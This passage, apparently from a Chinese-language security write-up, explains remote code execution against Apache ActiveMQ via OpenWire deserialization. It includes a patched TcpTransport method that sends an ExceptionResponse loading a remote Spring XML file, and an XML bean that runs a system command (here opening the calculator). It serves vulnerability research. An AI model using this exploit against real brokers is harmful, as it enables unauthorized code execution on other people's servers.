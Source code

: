 它的 oneway 方法会调用 wireFormat.marshal() 去序列化 command

command 就是前面准备发送的 ObjectMessage, 而 wireFormat 就是和它对应的序列化器

那么我们只需要手动 patch 这个方法，将 command 改成 ExceptionResponse, 将 wireFormat 改成 ExceptionResponseMarshaller 即可

这里我没有分析 OpenWire 协议，而是用了一个比较取巧的办法

在当前源码目录下新建一个 `org.apache.activemq.transport.tcp.TcpTransport` 类，然后重写对应的逻辑，这样在运行的时候，因为 classpath 查找顺序的问题，程序就会优先使用当前源码目录里的 TcpTransport 类

然后是 createThrowable 方法的利用，这块其实跟 PostgreSQL JDBC 的利用类似，因为 ActiveMQ 自带 spring 相关依赖，那么就可以利用 ClassPathXmlApplicationContext 加载 XML 实现 RCE

```plain
public void oneway(Object command) throws IOException {
    this.checkStarted();
    Throwable obj = new ClassPathXmlApplicationContext("http://127.0.0.1:8000/poc.xml");
    ExceptionResponse response = new ExceptionResponse(obj);
   this.wireFormat.marshal(response, this.dataOut);
    this.dataOut.flush();
}
```

因为在 marshal 的时候会调用 `o.getClass().getName()` 获取类名，而 getClass 方法无法重写 (final), 所以我在这里同样 patch 了 `org.springframework.context.support.ClassPathXmlApplicationContext`, 使其继承 Throwable 类

[![](assets/1701606889-17925dc160c06fdb87bc8b39c1725830.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231026172550-a6fa4b00-73e1-1.png)

```plain
<?xml version="1.0" encoding="UTF-8" ?>
    <beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="
     http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
        <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
            <constructor-arg >
            <list>
                <value>open</value>
                <value>-a</value>
                <value>calculator</value>
            </list>
```